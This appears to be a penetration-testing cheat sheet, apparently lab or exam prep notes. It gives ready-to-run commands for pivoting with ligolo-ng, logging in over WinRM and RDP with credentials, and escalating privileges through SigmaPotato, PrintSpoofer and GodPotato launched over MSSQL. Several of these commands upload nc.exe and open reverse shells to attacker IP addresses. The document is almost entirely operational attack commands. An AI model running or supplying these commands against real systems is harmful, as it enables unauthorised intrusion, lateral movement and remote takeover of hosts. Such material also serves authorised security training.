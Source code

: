 #### Attacking Host Setup
```bash
# Start proxy
sudo ligolo-proxy -selfcert

# Create the interface
ligolo-ng » interface_create --name ligolo
```

#### Target Host Setup
```bash
# Connect to the proxy
.\agent.exe -connect 192.168.X.X:11601 -ignore-cert
```

#### Routing Setup
```bash
# List active sessions
ligolo-ng » session

# Add route
ligolo-ng » interface_add_route --name ligolo --route 172.16.10.0/24

# Start the tunnel
ligolo-ng » start
```

### 🖥️ MS02 - Lateral Movement & Privilege Escalation

#### Initial Access
```bash
# Connect via WinRM
evil-winrm -u <user> -p <pass> -i <MS02>

# Connect via RDP
xfreerdp /u:<user> /p:<pass> /v:<MS02> /smart-sizing
```

#### Privilege Escalation Tools
```bash
# SigmaPotato
nxc mssql <target-IP> -u <user> -p <pass> --local-auth --put-file SigmaPotato.exe C:\\Windows\\Temp\\sp.exe
nxc mssql <target-IP> -u <user> -p <pass> --local-auth -x "c:\windows\temp\sp.exe --revshell 10.10.14.5 53"

# PrintSpoofer
nxc mssql <target-IP> -u <user> -p <pass> --local-auth --put-file PrintSpoofer64.exe C:\\Windows\\Temp\\pf.exe
nxc mssql <target-IP> -u <user> -p <pass> --local-auth --put-file ../binaries/nc.exe C:\\Windows\\Temp\\nc.exe
nxc mssql <target-IP> -u <user> -p <pass> --local-auth -x 'c:\windows\temp\pf.exe -c "nc.exe 10.10.14.10 53 -e cmd"'

# GodPotato
nxc mssql <target-IP> -u <user> -p <pass> --put-file ../../tools/privesc/GodPotato-NET4.exe C:\\windows\\temp\\gp.exe
nxc mssql <target-IP> -u <user> -p <pass> --local-auth --put-file ../binaries/nc.exe C:\\Windows\\Temp\\nc.exe
nxc mssql <target-IP> -u <user> -p <pass> -x 'c:\windows\temp\gp.exe -cmd "c:\windows\temp\nc.exe -t -e C:\windows\system32\cmd.exe 192.168.45.164 80"'
```
